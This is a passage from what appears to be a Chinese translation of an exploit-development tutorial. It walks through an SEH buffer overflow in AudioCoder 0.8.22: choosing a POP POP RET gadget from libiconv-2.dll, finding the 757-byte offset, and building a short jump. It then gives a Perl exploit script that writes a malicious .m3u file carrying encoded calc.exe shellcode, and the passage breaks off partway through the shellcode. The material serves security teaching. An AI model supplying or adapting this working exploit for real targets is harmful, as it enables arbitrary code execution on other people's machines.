 使用 mona 的好处是它还可以识别哪些模块已使用 SafeSEH 编译，这种保护可以消除基于 SEH 的漏洞利用的可行性。我将在下一节中详细解释 SafeSEH，但现在请记住避免使用它编译的模块。幸运的是，AudioCoder 有很多非 SafeSEH 模块可供选择。

一旦我们选择了一个可用的 POP+POP+RET 指令（我选择了 6601228E，它是来自 AudioCoder/libiconv-2.dll 的 POP EDI + POP EBP + RET 指令），接下来我们需要做的就是找出偏移量下一个 SEH。您可能还记得之前的教程，有几种方法可以做到这一点。您可以使用 pattern_offset.rb 来确定 7A41327A 的偏移量。

![29](part6/29.png)

你也可以使用 mona 

![30](part6/30.png)

所以我们有我们的 POP+POP+RET 地址和偏移量。现在我们只需要一些 Next SEH 和我们的 Shellcode 的 jump 代码。

Next SEH 需要的跳转代码只需要让我们越过 SEH 的 4 个字节。如果您还记得本系列的第 4 部分，操作码 EB 表示一个短的向前跳转。例如 \xeb\x14 是一个 20 字节的向前跳转。只要我们在 shellcode 前加上一些 NOP，我们就可以越过 SEH。

所以，我们有

- 偏移量 (757)

- Next SEH 的短跳转（\xeb\x14\x90\x90 — NOP 是 4 字节空间中 2 字节的填充物） 

- SEH 的 pop pop ret (0x6601228e) 

- shellcode（出于演示目的，我将使用 calc.exe）

```perl
#!/usr/bin/perl

###############################################################################
# Exploit Title: AudioCoder 0.8.22 (.m3u) – SEH Buffer Overflow
# Date: 10-18-2013
# Exploit Author: Mike Czumak (T_v3rn1x) — @SecuritySift
# Vulnerable Software: AudioCoder 0.8.22 (http://www.mediacoderhq.com/audio/)
# Software Link: http://www.fosshub.com/download/AudioCoder-0.8.22.5506.exe
# Version: 0.8.22.5506
# Tested On: Windows XP SP3
# Creates an .m3u file to exploit basic seh bof
###############################################################################

my $buffsize = 5000; # sets buffer size for consistent sized payload
my $junk = “http://” . (“\x90” x 757); # offset to seh overwrite
my $nseh = “\xeb\x14\x90\x90”; # overwrite next seh with jmp instruction (20 bytes)
my $seh = pack(‘V’,0x6601228e); #overwrite seh w/ pop edi pop ebp ret from AudioCoder\libiconv-2.dll
my $nops = “\x90” x 20;

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -c 1 -b ‘\x00\x0a\x0d\xff’
my $shell = “\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9” .
“\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92” .
“\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84” .
“\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e” .
“\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1” .
“\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27” .
“\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb” .
“\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b” .
“\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2” .
“\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37” .
“\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3” .
“\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef” .
“\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb” .
```